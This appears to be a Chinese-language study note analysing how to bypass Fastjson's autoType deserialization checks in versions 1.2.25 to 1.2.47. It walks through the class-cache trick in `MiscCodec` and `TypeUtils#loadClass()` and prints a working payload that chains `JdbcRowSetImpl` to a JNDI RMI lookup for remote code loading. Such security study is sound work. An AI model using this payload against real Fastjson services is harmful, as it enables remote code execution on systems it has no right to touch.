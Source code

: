 3. 根据上述变量条件，首先黑白名单基本不考虑，再根据逻辑判断，最终选择走 `clazz == null` 的分支。走这就要求 `clazz` 要不为空，而 `clazz` 是从缓存中获取的，那么接下来就是想办法“如何往缓存中插入恶意类，从而绕过黑白名单检测”。

4. 寻找 usage，找到 `put` 的地方，最终确定在 `TypeUtils#loadClass()` 中。然后再找这个方法的 usage。最终在 `MiscCodec#deserialze()` 中：
    ![image-20230516154052292](image-20230516154052292.png)

5. 观察一下，`MiscCodeC` 继承了 `ObjectSerializer, ObjectDeserializer` ，所以它应该是序列化反序列化器，然后在 `ParserConfig` 类中，`deserializers` 中存放了不同的类所对应的序列化器：![image-20230516154811064](image-20230516154811064.png)
    然后 `MiscCodec#deserialze()` 正是它反序列化时调用的方法，其中的 clazz 就是被序列化类的 class 字节码类型。

6. 因此，**如果传入一个 `Class` 类给反序列化**，那么 Fastjson 就会调用 `MiscCodec#deserialze()` 进行处理，然后就会进入到 `loadClass()` 中，从而会将传入的 `strVal` 所代表的类放入缓存中。

7. 如果 `strVal` 指代的是恶意类，那么就把恶意类放入到缓存中，这样就会绕过黑白名单检测。所以要向 `strVal` 中赋值。
    ![image-20230516161115939](image-20230516161115939.png)
    todo 我也不懂为什么要往 `val` 中赋值，但 `val` 赋值后确实会到 `strVal` 中。

8. 最终 payload 如下：
    ```java
    private static void Bypass1_2_25_JNDI() {
        String payload = "{{\"@type\":\"java.lang.Class\", \"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
            "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"AutoCommit\":false}}";
        JSON.parse(payload);
    }
    ```

### 4.2 1.2.25-47 BCEL 链失效原因

1. 即使通过两次反序列化 `Class` 类向缓存中放入恶意对象，但是由于反序列化 `BasicDataSource` 时，其内部的 `DriverClassLoader` 由于又指定了一个类，从而导致进入：
    ![image-20230516164636437](image-20230516164636437.png)
    最终执行：
    `config.checkAutoType(typeName, expectClass)` 去实例化 `BasicDataSource` 内部的 `com.sun.org.apache.bcel.internal.util.ClassLoader`，由于 `expectClass` 不为空了，因此进入黑白名单判断的逻辑当中，从而绕过失败！

### 4.3 1.2.47 前 `autoTypeSupport` 为 true 的绕过

1. 详见：

    > https://www.cnblogs.com/Aurora-M/p/15683941.html
    > https://www.cnblogs.com/cmx666/p/15136664.html

### 4.4 高版本绕过学习 todo

1. https://www.anquanke.com/post/id/232774#h2-19



